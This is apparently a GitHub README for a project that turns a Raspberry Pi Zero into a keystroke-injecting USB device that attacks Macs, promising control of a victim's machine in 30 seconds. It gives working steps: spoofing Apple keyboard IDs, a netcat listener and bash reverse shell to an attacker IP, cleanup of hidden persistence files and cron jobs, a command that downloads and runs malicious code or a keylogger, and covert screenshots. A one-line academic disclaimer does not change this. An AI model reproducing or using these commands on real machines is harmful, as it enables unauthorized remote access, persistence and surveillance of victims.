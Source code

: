 # Ducky Raspberry Pi Zero for Mac

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/LICENSE)

This is a project to convert a normal Raspberry Pi Zero into a USB Rubber Ducky using P4wnP1. There are some threads online about P4wnP1 not running on Mac but here is an introduction about how to setup so your Pi would be able to attack a Mac. Only using pure bash on victim's machine, not third party library or package installation needed. In just 30 seconds, you'd gain control to victim's machine.

![Ducky Raspberry Pi Zero](https://raw.githubusercontent.com/ohbriansung/usb_rubber_ducky/master/pi_zero_ducky/img/concept.jpg)

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.

```
username: pi
password: raspberry
```

4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).

```shell
sudo raspi-config
```

6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)

```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```

7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.

```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/pi_zero_ducky/payloads/hid_keyboard_hello_world.txt).

```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```

9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".

```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```

10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.

```shell
sudo shutdown -h now
```

11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.

```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.

```shell
nc -l -p 8080 -vvv
```

2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)

```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```

3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads](https://github.com/ohbriansung/usb_rubber_ducky/tree/master/pi_zero_ducky/payloads) folder there is a reverse shell ducky script example. Here is the clean up script if you use my example.

```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

*For a newer version of OSX, you would find out that you Mac pops out a window and you need to select OK manually. This is an improvement made by Apple for cron job. If you use the payload without cron job, you will be just fine.*

## What Now

- Rick roll prank

```shell
# One privilege of hacking Mac is we have access to AppleScript.
osascript -e 'set volume 7'
open https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

- Accessing sudo privilege

```shell
echo "password" | sudo -S ls
```

*You would be able to run a background program to brute-force victim's password.*

- Take a screenshot

```shell
osascript -e 'set volume 0'
screencapture ~/a.jpg
```

- Download and run a malicious code or KeyLogger to gain further control.

```shell
wget -O /tmp/x -q -o /dev/null http://link_to_malicious_code/
chmod a+x /tmp/x
/tmp/x
```

- ~~Take a photo with Mac's webcam~~

*Apparently, Apple has a very strong security and privacy. It's nearly impossible to control hardware like webcam or mic without really operating on the machine.*

## Author and Contributors

- Chien-Yu \(Brian\) Sung
- Jordan Aldujaili
- Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
1. [P4wnP1](https://github.com/mame82/P4wnP1/)
1. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)

